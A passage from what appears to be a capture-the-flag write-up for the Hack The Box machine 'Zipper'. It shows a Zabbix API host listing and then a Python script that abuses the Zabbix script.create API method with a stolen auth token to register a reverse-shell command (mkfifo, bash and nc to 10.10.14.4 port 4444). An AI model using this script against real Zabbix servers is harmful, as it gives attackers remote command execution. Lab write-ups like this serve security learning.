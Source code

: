 ```
      "ipmi_password": "",                                                                  
      "ipmi_disable_until": "0",                                                            
      "ipmi_available": "0",                                                                
      "snmp_disable_until": "0",                                                            
      "snmp_available": "0",                                                                
      "maintenanceid": "0",                                                                 
      "maintenance_status": "0",                                                            
      "maintenance_type": "0",                                                              
      "maintenance_from": "0",                                                              
      "ipmi_errors_from": "0",                                                              
      "snmp_errors_from": "0",                                                              
      "ipmi_error": "",                                                                     
      "snmp_error": "",                                                                     
      "jmx_disable_until": "0",                                                             
      "jmx_available": "0",                                                                 
      "jmx_errors_from": "0",                                                               
      "jmx_error": "",                                                                      
      "name": "Zipper",                                                                     
      "flags": "0",                                                                         
      "templateid": "0",                                                                    
      "description": "Zipper",                                                              
      "tls_connect": "1",                                                                   
      "tls_accept": "1",                                                                    
      "tls_issuer": "",                                                                     
      "tls_subject": "",                                                                    
      "tls_psk_identity": "",                                                               
      "tls_psk": ""                                                                         
    }                                                                                       
  ],                                                                                        
  "id": 1                                                                                   
}
```

It is likely 10106 is the machine itself, and 10105 is a container running Zabbix. Here's the final script I used to run and execute stuff:

```python
import requests
import re
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = 'http://zipper.htb/zabbix/api_jsonrpc.php'

headers = {
	'Content-Type':'application/json-rpc'
}
random_name = random.randint(1000,9999)
data = {
	"jsonrpc":"2.0",
	"method":"script.create",
	"params": {
		"name":f"{random_name}",
		"command":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 4444 >/tmp/f",
		"execute_on":"0"
	},
	"auth":"06240f1bd5926c26e2d5ef2e8ffe214e",
	"id":"1"
}

r = requests.post(url, headers=headers, json=data, proxies=proxies, verify=False)

```